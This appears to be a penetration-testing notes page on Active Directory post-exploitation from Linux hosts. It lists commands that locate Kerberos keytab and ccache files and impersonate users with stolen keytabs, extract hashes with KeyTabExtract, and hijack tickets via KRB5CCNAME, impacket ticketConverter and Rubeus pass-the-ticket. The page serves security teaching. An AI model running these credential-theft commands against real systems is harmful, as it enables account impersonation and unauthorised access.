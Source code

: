 ```yaml
---
description: >-
  The only difference from Post-Exploitation in #Pentesting is that here we
  would use only AD-related  PE vectors which is executed in Linux OS.
---
```


# Linux Post-Exploitation

**Linux** computers can connect to **Active Directory**, though it's a **Microsoft** technology. Also it's not required for **Linux** machine to be connected to **AD** to use **Kerberos** tickets.

## Checking Linux and AD relations

### realm

```bash
realm list
```

### PS

<pre class="language-bash"><code class="lang-bash"><strong>ps -ef | grep -i "winbind\|sssd"
</strong></code></pre>

## Finding Kerberos Tickets

Finding tickets is very important part of Active Directory exploitation and post-exploitation. For a beginning, tickets in Linux are usually located here:

* **keytab files** - commonly allow scripts to authenticate automatically using Kerberos without human interaction or access to a password stored in a plain text file
* **ccache files** - **c**redential **c**ache is stored in <mark style="color:green;">**/tmp**</mark> directory&#x20;
* <mark style="color:green;">**`KRB5CCNAME`**</mark> - environment variable

### Crontab

```bash
crontab -l
```

### Keytab Files

```bash
find / -name *keytab* -ls 2>/dev/null
```

### Ccache

```bash
env | grep -i krb5
ls -la /tmp
```

## Abusing Keytab

### Impersonate user

```bash
klist -k -t #list keytab file info
kinit carni7@AMOGUS.KEK -k -t /opt/kerbusers/carni7.keytab #impersonation carni7 using his keytab
```

### **KeyTabExtract**

[**\[LINK\]**](https://github.com/sosdave/KeyTabExtract) This is tool which is extracting **Kerberos** hashes from **keytab** file.

```python
python3 /opt/keytabextract.py /opt/specialfiles/carni7.keytab 
```

## Abusing ccache

For using **ccache** files you need to have root privileges

### Checking group privileges

```bash
id venator177@amogus.kek
```

Now after locating right non-expired **Kerberos** ticket, we could import **ccache** file into our session by changing value of <mark style="color:green;">**`KRB5CCNAME`**</mark> env and checking tickets with <mark style="color:red;">**klist.**</mark>

```bash
cp /tmp/krb5cc_768304578_BRB541 .
export KRB5CCNAME=/root/krb5cc_768304578_BRB541
klist
Ticket cache: FILE:/root/krb5cc_768304578_BRB541
```

If the result is the same, we could be sure that now **Kerberos** is using our ticket.

## Ticket Converter

```bash
impacket-ticketConverter krb5cc_768304578_BRB541 carni7.kirbi
```

#### Importing Kerberos Ticket

```powershell
C:\Rubeus.exe ptt /ticket:c:\carni7.kirbi
```
